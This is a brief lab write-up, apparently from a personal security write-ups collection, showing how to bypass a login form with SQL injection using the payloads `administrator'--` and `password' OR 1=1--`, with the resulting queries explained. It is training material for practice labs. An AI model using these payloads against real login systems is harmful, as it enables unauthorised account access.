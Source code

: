 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/3d55e63d-dcdb-4972-b78e-fd7d1644b826)

Let's login using the following credentials:


| Username | Password |
| -------- | -------- |
| test         | test         |

The resultant SQL query will be:

```
SELECT username FROM users WHERE username = 'test' AND password = 'test'
```

This will obviously not log us in as the administrator.

## Method 1

We can next try the following credentials:

| Username | Password |
| -------- | -------- |
| administrator'--         | password         |

The resultant SQL query will be:

```
SELECT username FROM users WHERE username = 'administrator'--' AND passsword = 'password'

## Queried part:
SELECT username FROM users WHERE username = 'administrator'

## Commented part:
' AND passsword = 'password'
```

Since we are commenting out the WHERE clause that requires the password, we will be logged in even if the password is not `password`.

## Method 2

We can next try the following credentials:

| Username | Password |
| -------- | -------- |
| administrator         | password' OR 1=1--         |

The resultant SQL query will be:

```
SELECT username FROM users WHERE username = 'administrator' AND passsword = 'password' OR 1=1--'

## Queried part:
SELECT username FROM users WHERE username = 'administrator' AND passsword = 'password' OR 1=1

## Commented part:
'
```

Since the result of 1=1 is always `true/1` and anything OR with 1 is 1, the query will always be executed evenif the password isn't `password`.

![6](https://github.com/Knign/Write-ups/assets/110326359/bb092920-9e71-4bec-9962-4be51d367861)

We have solved the lab.

![7](https://github.com/Knign/Write-ups/assets/110326359/a3977cd1-0bef-49e6-bc77-8806b451594c)
